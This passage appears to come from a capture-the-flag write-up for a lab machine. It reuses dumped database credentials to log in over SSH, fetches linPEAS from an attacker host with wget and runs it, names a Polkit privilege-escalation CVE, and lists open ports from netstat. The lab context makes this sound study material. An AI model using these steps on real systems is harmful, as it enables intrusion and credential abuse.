 
```text
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+
```

We can get a shell using this credential on SSH:

```shell
ssh sau@10.10.11.214
```

## Post-Exploitation

### Host Reconnaissance

For a quick reconnaissance, we can use linPEAS. Using `updog`, upload it to the target host :

```shell
cd /tmp
wget http://10.10.14.7:9090/linpeas.sh
```

and execute :

```shell
bash ./linpeas.sh
```

There is a possible kernel exploit : CVE-2021-3560. This is a Polkit-Privilege-Esclation

There is also an application listening on local port 8000. This can be verified with `netstat`:

```shell
$ netstat -4tlp
```

```text
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -
tcp        0      0 localhost:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -
```

we can read that port to identify the application :
